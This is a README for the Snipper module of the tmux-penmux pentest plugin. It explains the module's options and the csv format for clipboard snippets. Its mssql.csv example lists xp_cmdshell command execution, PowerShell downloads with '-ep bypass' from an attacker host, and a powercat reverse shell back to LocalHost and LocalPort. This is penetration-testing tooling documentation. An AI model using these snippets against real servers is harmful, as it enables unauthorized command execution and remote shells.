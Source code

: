 # Snipper Module

This module is providing an interface to copy snippets to the clipboard which can use various penmux options (not restricted to this module) as paramters, flags, etc. so that you don't have to mess around with boring stuff.

It can be extended by csv files with new snippets as you like and has some dumb replacement parser to use dynamic values from penmux options, etc.

## 1. Keytable

Not implemented.

## 2. Options

The following configurable options are used by the Commander module.

| Option | Type | Default | Description |
|--------|------|---------|-------------|
|SnippetSearchPath | String | $HOME/.tmux/plugins/tmux-penmux/modules/auxiliary/Snipper/snippets | The search path for csv files providing snippets |
|ClipboardCommand | String | echo '\$\$snippet\$\$' \| xclip -i -sel c | The command used to copy the snippet to the clipboard. The placeholder `'$$snippet$$'` will be replaced by the selected snippet |
|LocalHost | String | 127.0.0.1 | An option used by various commands. Can be seen like metasploit's LHOST |
|LocalPort | Integer | 4444 | An option used by various commands. Can be seen like metasploit's LPORT |

## 3. Adding snippets

You can extend the Snipper with snippets to your like. Either by extending existing csv files or creating new ones. The module is loading any csv or sh file from the 'SnippetSearchPath' recursively so that they can be grouped by using nested directories.

**If you're adding any snippets, please create an issue / pr so that others can benefit from**

### Needed files

For a new group of snippets, you need to create two files (csv and desc) under any sub folder inside the 'SnippetSearchPath' directory.
It has an empty custom folder that should be used for custom snippets and is not included in the git source.

Follow these steps to create a new snippet group (default configuration):
```
mkdir -p $HOME/.tmux/plugins/tmux-penmux/modules/auxiliary/Snipper/snippets/custom/my/new/group
touch $HOME/.tmux/plugins/tmux-penmux/modules/auxiliary/Snipper/snippets/custom/my/new/group/sub.csv
echo "My sub group provides some cool stuff" $HOME/.tmux/plugins/tmux-penmux/modules/auxiliary/Snipper/snippets/custom/my/new/group/sub.desc
```
The csv format is using just ',' as separator and contains the following columns:
| name | description | snippet | variables |
|------|-------------|---------|-----------|
|Unique name which is shown in the selector | A description of what the snippet is doing | The snippet, which is to be copied | Variables that will be asked to change by the user |

As example checkout the mssql group under 'databases/sql'

mssql.desc (this is the description shown by the selection window):
```
Snippets for mssql related things
```
mssql.csv (this is the csv file containing the snippet definitions):
```
name,description,snippet,variables
MsSQLExecuteCommand,MsSQL comamnd execution via xp_cmdshell,EXEC xp_cmdshell "§§§command§§§",§§§command§whoami§command that should be executed§§§
MsSQLExecuteCommandPsDownload,MsSQL comamnd execution via xp_cmdshell (download file via powershell),EXEC xp_cmdshell "powershell -ep bypass -nop iwr -uri ###HttpUri###§§§file§§§ -outfile §§§file§§§",§§§file§powercat.ps1§filename to download from host§§§
MsSQLExecuteCommandPsDownloadTemp,MsSQL comamnd execution via xp_cmdshell (download file via powershell to temp),EXEC xp_cmdshell "powershell -ep bypass -nop iwr -uri ###HttpUri###§§§file§§§ -outfile $env:TEMP\§§§file§§§",§§§file§powercat.ps1§filename to download from host§§§
MsSQLExecutePowercat,MsSQL comamnd execution via xp_cmdshell (powercat connection to host),EXEC xp_cmdshell "powershell -ep bypass -nop . powercat.ps1; powercat -c ###LocalHost### -p ###LocalPort### -ep",
MsSQLExecutePowercatTemp,MsSQL comamnd execution via xp_cmdshell (powercat connection to host in temp),EXEC xp_cmdshell "powershell -ep bypass -nop . $env:TEMP\powercat.ps1; powercat -c ###LocalHost### -p ###LocalPort### -ep",
```

### Breaking it down

Let's check out one line to get an idea on what is going on:
```
MsSQLExecuteCommand,MsSQL comamnd execution via xp_cmdshell,EXEC xp_cmdshell "§§§command§§§",§§§command§whoami§command that should be executed§§§
```
- The first part `MsSQLExecuteCommand` is just the selector name shown to the user.
- The second part `MsSQL comamnd execution via xp_cmdshell` is just the description of what the snippet will do shown to the user.
- The third part `EXEC xp_cmdshell "§§§command§§§"` is the snippet that will be copied to the clipboard. It can use any placeholders that will be replaced like `###SessionDir###`. Further it has it's own replacements like `§§§command§§§` that are variables for the Snipper only and are automatically asked to change by the user.
- The last part `§§§command§whoami§command that should be executed§§§` are the variables used by the snippet. This format is specific to the Snipper and described [here](#snipper_var_format).

### <a name="#snipper_var_format"></a>Snipper variables format

**TODO**

### Replacement / Expanding

For detailed information of what can be added as dynamic values please refer to [String replacements](../misc/Replacements.md)

## 4. Development information

**TODO**
